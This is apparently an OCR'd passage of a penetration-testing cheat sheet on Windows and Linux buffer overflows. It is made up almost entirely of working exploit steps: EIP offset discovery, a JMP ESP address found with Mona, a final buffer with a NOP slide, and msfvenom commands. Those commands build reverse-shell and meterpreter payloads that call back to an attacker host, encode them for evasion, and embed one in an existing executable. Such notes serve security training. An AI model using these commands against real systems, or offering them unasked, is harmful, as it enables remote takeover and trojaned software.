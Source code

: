     *   Controlling EIP

             locate pattern_create
             pattern_create.rb -l 2700
             locate pattern_offset
             pattern_offset.rb -q 39694438

    *   Verify exact location of EIP - [*] Exact match at offset 2606

            buffer = "A" \* 2606 + "B" \* 4 + "C" \* 90

    *   Check for “Bad Characters” - Run multiple times 0x00 - 0xFF

    *   Use Mona to determine a module that is unprotected

    *   Bypass DEP if present by finding a Memory Location with Read and Execute access for JMP ESP

    *   Use NASM to determine the HEX code for a JMP ESP instruction

            /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb

            JMP ESP  
            00000000 FFE4 jmp esp

    *   Run Mona in immunity log window to find (FFE4) XEF command

            !mona find -s "\xff\xe4" -m slmfc.dll  
            found at 0x5f4a358f - Flip around for little endian format
            buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390

    *   MSFVenom to create payload

            msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"

    *   Final Payload with NOP slide

            buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode

    *   Create a PE Reverse Shell  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -o shell_reverse.exe

    *   Create a PE Reverse Shell and Encode 9 times with Shikata_ga_nai  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f  
        exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe

    *   Create a PE reverse shell and embed it into an existing executable  
        msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe

    *   Create a PE Reverse HTTPS shell  
        msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe

*   Linux Buffer Overflows

    *   Run Evans Debugger against an app  
        edb --run /usr/games/crossfire/bin/crossfire

    *   ESP register points toward the end of our CBuffer  
        add eax,12  
        jmp eax  
        83C00C add eax,byte +0xc  
        FFE0 jmp eax
